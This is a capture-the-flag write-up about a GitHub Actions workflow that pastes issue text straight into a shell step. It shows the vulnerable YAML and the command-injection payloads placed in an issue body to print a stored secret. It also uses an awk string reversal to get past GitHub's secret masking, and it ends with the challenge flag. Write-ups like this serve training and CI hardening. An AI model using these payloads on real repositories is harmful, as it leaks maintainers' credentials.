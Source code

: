 # Comments (500 points) - Github

You must solve the first challenge to get the answer, all you need is inside the Loby.

![Alt text](./_images/image.png)

This problem is common in github CTF, hacking the repository with environment variables from github workflows/actions, to uncover the secrets environment variables.

Viewing the workflow yaml file we can see the following:

```yaml
name: Parse review of teacher

on:
  issues:
    types: [opened, edited]

jobs:
  parse-review:
    runs-on: ubuntu-latest
    steps:
      - name: Extract Teacher name and review from issue body
        id: extract-review
        env: 
          db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
        run: |
          TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
          REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
          echo "::set-output name=teacher::$TEACHER"
          echo "::set-output name=review::$REVIEW"
      - name: Comment on issue
        uses: actions/github-script@v5
        with:
          github-token: ${{secrets.GITHUB_TOKEN}}
          script: |
            const issueComment = {
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: ${{ github.event.issue.number }},
              body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was: 
              ${'{{ steps.extract-review.outputs.review }}'}`
            };
            github.rest.issues.createComment(issueComment);
```

So we can see that the flag is in the secrets environment variable, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with `db_pass` variable.

I see a delicious vuln in the workflow, the `github.event.issue.body` parses the body of the issue, so we can write a payload for command injection in the body of the issue to read the secrets variable.

```bash
TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
echo "::set-output name=teacher::$TEACHER"
echo "::set-output name=review::$REVIEW"
```

We can write the following payload:

```bash
'); echo $db_pass; # Review: '
```
Will be executed as:

```bash
TEACHER=$(echo ''); echo $db_pass; # Review: '
```

![Alt text](./_images/image3.png)

This first test will give us a glimpse of mask `***` LMAO since the secrets variable is protected. To unmask the flag we need to reverse the string with basic `awk` for strings manipulations.

![Alt text](./_images/image-4.png)

```bash
'); echo "$db_pass" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }'; # Review: '
```

![Alt text](./_images/image1.png)

**FLAG:** EKO{m0ve_y0uR_b0dy}
